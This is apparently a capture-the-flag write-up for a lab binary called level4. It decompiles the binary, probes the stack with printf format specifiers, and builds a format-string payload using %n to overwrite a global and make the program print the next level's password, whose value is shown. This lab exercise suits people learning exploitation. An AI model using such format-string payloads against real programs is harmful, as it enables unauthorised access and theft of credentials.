     scp -P 4242 level4@10.11.200.132:/home/user/level4/level4 .

<hr>

Decompilation of the binary:
```
        int32_t main(int32_t argc, char** argv, char** envp)

            080484b3  return n()

        
        uint32_t n()

            0804847a  void var_20c
            0804847a  fgets(&var_20c, 0x200, *stdin)
            08048488  p(&var_20c)
            0804848d  uint32_t eax_1 = *m
            08048492  if (eax_1 == 16930116)
            080484a0      eax_1 = system("/bin/cat /home/user/level5/.pass")
            080484a6  return eax_1


        int32_t p(int32_t arg1)

            08048456  return printf(arg1)
```
<hr>

```
python -c 'print "A"*20 + "%p "*20' | ./level4
AAAAAAAAAAAAAAAAAAAA0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d
0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x41414141 0x41414141 0x41414141
0x41414141 0x25207025 0x70252070 0x20702520 0x25207025
```
A(0x41414141) is written in the 12th parameter

<hr>
Same as before, it looks like we have to write to *m address to verify the value 16930116. 

Dump of assembler code for function n:
```   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax           ## the address to write
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
```

``0x8049810`` -> ``\x10\x98\x49\x80``

Padding now should be 16930116 length - the length of the target address.
Printf allows us to create this padding on execution by using "%(16930116-4)u%12$n"

Building the string:

    python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n" ' > /dev/shm/ex; cat /dev/shm/ex - | ./level4

at the end of the output:
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

    Bingo :D